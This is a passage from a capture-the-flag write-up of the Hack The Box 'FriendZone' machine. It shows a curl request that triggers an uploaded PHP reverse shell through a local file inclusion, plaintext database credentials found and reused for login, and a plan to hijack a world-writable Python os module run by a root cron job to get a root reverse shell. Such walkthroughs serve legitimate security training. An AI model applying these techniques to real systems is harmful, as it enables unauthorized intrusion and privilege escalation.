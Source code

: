 Looks like a timestamp in unix epoch format. The dashboard.php page comes to mind, it was also looking for a timestamp. Being stuck for a bit again, I decided to further enumerate the Samba shares and nmap scripts are able to determine the "Files" share is mapped to /etc/Files and we assume "Development" is mapped to /etc/Development which we had write access to. I uploaded my php reverse shell to the "Development" share and copied the curl request out of burp:

```text
curl -i -s -k  -X $'GET' \
    -H $'Host: administrator1.friendzone.red' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate' -H $'Cookie: FriendZoneAuth=e7749d0f4b4da5d03e6e9196fd1d18f1' -H $'Connection: close' -H $'Upgrade-Insecure-Requests: 1' \
    -b $'FriendZoneAuth=e7749d0f4b4da5d03e6e9196fd1d18f1' \
    $'https://administrator1.friendzone.red/dashboard.php?image_id=b.jpg&pagename=/etc/Development/shell'
```

I setup my netcat listener, and ran the curl command to access my reverse shell and it works. We get a shell as the "www-data" user. We find that this user is able to cat the user flag in "/home/friend/user.txt". First part is done.

After some hunting around on the filesystem we come across this file with some more goodies:

```text
www-data@FriendZone:/var/www$ cat mysql	
cat mysql_data.conf 
for development process this is the mysql creds for user friend

db_user=friend

db_pass=Agpyu12!0.213$

db_name=FZ
```

We noticed there is a "friend" user on this machine too, so we try to su to friend using the password we found and it works. We can now get a proper shell by simply using ssh as the friend user.

By looking at the syslog file, we see a cronjob is running every couple minutes:

```text

tail -f /var/log/syslog

May 22 15:32:01 FriendZone CRON[1030]: (root) CMD (/opt/server_admin/reporter.py)
May 22 15:34:01 FriendZone CRON[1033]: (root) CMD (/opt/server_admin/reporter.py)
```

We're able to read the reporter.py script, but have no other permissions. We see it imports the os module. We then find the "/usr/lib/python2.7/os.py" file is world-writable. I start to realize what needs to be done, and details can be found [here][3].

The goal is to highjack the os module import with our own code that calls a reverse shell back to us. When the cron job runs the "reporter.py" script as root it will first import os which will be ours, and a reverse shell will come back to as with root privileges.


[1]: https://www.hackthebox.eu/home/users/profile/17292
[2]: https://www.hackthebox.eu
[3]: https://rastating.github.io/privilege-escalation-via-python-library-hijacking/